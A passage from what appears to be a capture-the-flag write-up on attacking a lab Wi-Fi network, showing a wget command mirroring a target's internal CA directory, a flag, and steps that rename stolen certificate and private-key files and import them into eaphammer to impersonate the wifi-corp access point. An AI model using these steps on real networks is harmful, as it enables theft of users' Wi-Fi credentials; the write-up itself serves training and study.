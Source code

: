 ```shell
wget -A txt -m -p -E -k -K -np  http://192.168.7.1/.internalCA
```

**Flag :**  `flag{3v1GXNkW0dh3T57ppoP1}`

## **25. What is the password of the wifi-corp Administrator?**

**Challenge Description :**  What is the password of the wifi-corp Administrator?

### Approach

I remove all `.txt`:

```shell
mv server.key.txt server.key
mv ca.serial.txt ca.serial
mv ca.crt.txt ca.crt
mv ca.key.txt ca.key
mv server.crt.txt server.crt
mv client.conf.txt client.conf
mv client.ext.txt client.ext
```

I use the tool `eaphammer` to import certificate:

```shell
cd /root/tools/eaphammer
python3 ./eaphammer --cert-wizard import --server-cert /root/CHALLS/CA/internalCA/server.crt --ca-cert /root/CHALLS/CA/internalCA/ca.crt --private-key /root/CHALLS/CA/internalCA/server.key --private-key-passwd secret
```

![](Images/Recon24_01.png)